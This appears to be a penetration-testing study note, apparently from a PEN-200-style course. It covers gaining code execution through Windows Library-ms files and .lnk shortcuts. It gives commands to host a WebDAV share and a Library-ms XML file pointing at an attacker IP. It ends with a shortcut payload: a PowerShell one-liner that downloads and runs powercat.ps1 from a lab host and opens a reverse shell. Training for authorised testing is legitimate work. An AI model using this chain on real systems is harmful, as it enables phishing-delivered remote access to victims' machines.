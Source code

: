 # Library-ms & lnk

### Webdav

```bash
kali@kali:~$ pip3 install wsgidav
```

_<mark style="color:red;">Once WsgiDAV is installed, we'll create the</mark> <mark style="color:red;"></mark><mark style="color:red;">**/home/kali/webdav**</mark> <mark style="color:red;"></mark><mark style="color:red;">directory to use as the WebDAV share that will contain our</mark> <mark style="color:red;"></mark><mark style="color:red;">**.lnk**</mark> <mark style="color:red;"></mark><mark style="color:red;">file. For now, let's place a</mark> <mark style="color:red;"></mark><mark style="color:red;">**test.txt**</mark> <mark style="color:red;"></mark><mark style="color:red;">file in this directory.</mark>_

_<mark style="color:red;">If the installation of WsgiDAV fails with</mark> <mark style="color:red;"></mark><mark style="color:red;">**error: externally-managed-environment**</mark><mark style="color:red;">, we can use a virtual environment</mark>_[_<mark style="color:red;">3</mark>_](https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979#fn-local\_id\_165-3) _<mark style="color:red;">or install the package python3-wsgidav with apt. In PEP 668,</mark>_[_<mark style="color:red;">4</mark>_](https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979#fn-local\_id\_165-4) _<mark style="color:red;">a change was introduced to enforce the use of virtual environments and prevent situations in which package installations via pip break the operating system.</mark>_



```bash
kali@kali:~$ mkdir /home/kali/webdav

kali@kali:~$ touch /home/kali/webdav/test.txt

kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```



### **config.Library-ms**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

For change image icon u could change `<iconReference>imageres.dll,-1003</iconReference>`



### Create .lnk

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```
